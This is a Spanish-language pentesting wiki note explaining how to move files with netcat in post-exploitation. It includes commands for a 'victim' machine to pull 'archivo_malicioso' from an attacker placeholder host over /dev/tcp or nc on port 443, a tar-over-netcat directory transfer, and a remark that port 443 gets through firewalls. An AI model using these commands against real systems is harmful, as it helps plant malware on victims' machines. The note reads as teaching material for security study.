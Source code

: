 # 📂 Transferencia de Archivos con Netcat

## 🔄 Transferencia de Archivos entre Máquinas

> [!tip] Escenario
> Esta técnica es especialmente útil en pruebas de penetración o situaciones donde se necesita transferir archivos entre sistemas cuando otras herramientas como SCP, FTP o HTTP no están disponibles.

Netcat (nc) proporciona un método rápido y versátil para transferir archivos a través de conexiones TCP, funcionando en prácticamente cualquier sistema operativo con una implementación de netcat.

## 🚀 Proceso de Transferencia

### En la máquina atacante (remitente)

```bash
# Escuchar en el puerto 443 y enviar el contenido del archivo
nc -nlvp 443 < archivo_malicioso
```

> [!info] Parámetros explicados
> - `-n`: No realizar resolución DNS
> - `-l`: Modo de escucha
> - `-v`: Modo verboso (muestra detalles de la conexión)
> - `-p 443`: Especifica el puerto de escucha (443)

### En la máquina víctima (receptora)

```bash
cat < /dev/tcp/ip_atacante/443 > archivo_malicioso
```

> [!note] Alternativa
> También se puede usar netcat en la máquina receptora:
> ```bash
> nc ip_atacante 443 > archivo_malicioso
> ```

## ✅ Verificación de Integridad

Para garantizar que el archivo se transfirió correctamente sin corrupción, podemos utilizar [[md5sum]] para verificar la integridad:

### En ambas máquinas (atacante y víctima)

```bash
md5sum archivo_malicioso
```

> [!success] Transferencia exitosa
> Si los hashes MD5 coinciden en ambos extremos, la transferencia se completó sin errores.

## 🛡️ Consideraciones de Seguridad

> [!warning] Advertencia
> - Esta transferencia **no está cifrada** - cualquiera que monitoree la red puede interceptar el archivo
> - Para transferencias seguras, considere tunelizar a través de SSH o usar herramientas como `scp`
> - Los puertos comunes como 443 suelen tener menos restricciones en firewalls corporativos

## 🔍 Casos de Uso Adicionales

### Transferencia de directorios completos

```bash
# En la máquina atacante
tar -czf - /ruta/directorio | nc -nlvp 443

# En la máquina víctima
nc ip_atacante 443 | tar -xzf -
```

### Transferencia bidireccional (chat simple)

```bash
# En la máquina A
nc -nlvp 443

# En la máquina B
nc ip_maquina_a 443
```

---

## 🔗 Recursos Relacionados

- [[md5sum]]

#hacking #transferencia_archivos #netcat #post_explotacion #redes

---

[[wiki]]